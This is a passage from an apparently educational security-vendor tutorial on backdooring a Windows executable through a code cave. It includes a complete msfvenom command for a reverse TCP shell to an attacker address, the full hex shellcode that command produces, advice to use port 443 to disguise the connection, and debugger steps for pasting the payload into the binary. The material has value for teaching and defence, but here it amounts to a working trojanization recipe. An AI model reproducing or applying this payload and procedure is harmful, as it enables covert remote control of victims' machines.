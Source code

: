 </div>

At the end of our code cave, we should have to restore that information
from the stack. We will see that later.

We are now ready to inject the shellcode.

## Generating shellcode

As you probably know, a shellcode is a piece of carefully arranged bytes
that can execute anything, commonly a shell.

In our example, we will create a shellcode that connects back from the
victim to the attacker machine and serves a reverse shell.

To do that, we will use `msvenom`:

``` console
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=443 EXITFUNC=none -f hex
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf
0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631
ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0
894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b8
9001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976a0568c0a8001268
020001bb89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089
e357575731f66a125956e2fd66c744243c01018d442410c60044545056565646564e5656535668
79cc3f86ffd589e04e5646ff306808871d60ffd5bbaac5e25d68a695bd9dffd53c067c0a80fbe0
7505bb4713726f6a0053ffd5
```

Notice that I chose `LPORT=443` instead of the default `4444`. This will
hopefully help to disguise this reverse shell a little.

We can now insert those bytes on our code cave.

<cta-banner
  buttontxt="Read more"
  link="/solutions/secure-code-review/"
  title="Get started with Fluid Attacks' Secure Code Review solution right now"
/>

Here we can see the addresses on where the `pushad/pushfd` instructions
were injected:

``` x86asm
004BB004 | 60                    | pushad                                |
004BB005 | 9C                    | pushfd                                |
```

To make some room for any needed encoder/decoder, I will use the address
`004BB060` as the place where the shellcode will be placed. To inject
the shellcode, we must select the output of `msfvenom` in `hex` format,
then on the debugger select an address region large enough to fit our
shellcode, then right-click, select `Binary` and then `Paste`.
